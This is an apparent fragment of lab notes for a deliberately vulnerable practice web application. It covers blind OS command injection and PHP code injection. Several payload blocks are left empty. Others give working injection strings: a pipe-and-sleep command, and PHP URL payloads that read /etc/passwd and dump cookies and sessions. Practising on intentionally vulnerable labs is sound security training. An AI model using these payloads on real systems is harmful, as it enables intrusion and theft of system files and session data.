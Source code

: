 
### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  OS Command Injection - Blind 💀
url: /commandi_blind.php

bind more shell commands 
```
www.nsa.gov | sleep 10
```



### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  PHP Code Injection 💀
url: /phpi.php
pass or append bad php code with message variable. the following code will list the content of /etc/passed directory.
```
phpi.php?message='a';echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```
the following shows the current directory path
```
phpi.php?message='hacker loi '; echo __dir__;
```
show cookies
```
phpi.php?message='whatever ';var_dump($_COOKIE)
```
show sessions
```
phpi.php?message='whatever ';var_dump($_SESSION)
```
